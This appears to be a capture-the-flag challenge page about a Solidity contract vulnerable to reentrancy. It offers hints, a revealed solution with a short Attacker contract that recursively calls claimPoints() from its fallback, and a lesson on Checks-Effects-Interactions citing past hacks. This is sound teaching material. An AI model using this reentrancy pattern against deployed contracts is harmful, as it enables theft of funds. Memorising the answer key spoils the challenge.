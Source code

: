 # Challenge 5: Give Me My Points!

In this challenge, you need to accumulate enough points to mint a flag. However, points can only be claimed once... or can they?

## Contract Overview
The contract has three main functions:
- `claimPoints()`: Gives 1 point to the caller, but only if they haven't claimed before
- `resetPoints()`: Resets points to zero
- `mintFlag()`: Mints a flag if you have 10 or more points

## Hints
<details>
<summary>Hint 1</summary>
Notice the order of operations in <code>claimPoints()</code>. When does it check points? When does it update them?
</details>

<details>
<summary>Hint 2</summary>
The contract makes an external call before updating the points. What happens if we call back into the contract during this call?
</details>

<details>
<summary>Hint 3</summary>
The "Checks-Effects-Interactions" pattern isn't followed here. The state update happens after the external interaction!
</details>

## Solution
<details>
<summary>Click to reveal solution</summary>

Create a contract that recursively claims points through its fallback function:

<code>
contract Attacker {
    Challenge5 challenge;
    uint256 callCount = 0;

    fallback() external {
        if (callCount < 10) {
            callCount++;
            challenge.claimPoints();
        }
    }

    function attack() external {
        challenge.claimPoints();
    }
}
</code>

The attack works because:
1. Initial <code>claimPoints()</code> checks points (0)
2. Makes external call to our contract
3. Our fallback function calls <code>claimPoints()</code> again
4. Process repeats until we have enough points
5. State only updates after all recursive calls complete

Congratulations! You've exploited a classic reentrancy vulnerability! 🎉
</details>

Remember: Always update state BEFORE making external calls! The "Checks-Effects-Interactions" pattern exists to prevent exactly this type of vulnerability.

## Why This Matters
Reentrancy attacks are one of the most notorious vulnerabilities in smart contracts:

1. The DAO hack (2016, $60M lost) - The first major reentrancy attack that led to Ethereum's hard fork
2. The Cream Finance exploit (2021, $130M lost) - Complex reentrancy across multiple functions
3. The Fei Protocol hack (2022, $80M lost) - Reentrancy in flash loan functionality

This specific pattern of checking state, making an external call, and then updating state has led to numerous exploits.
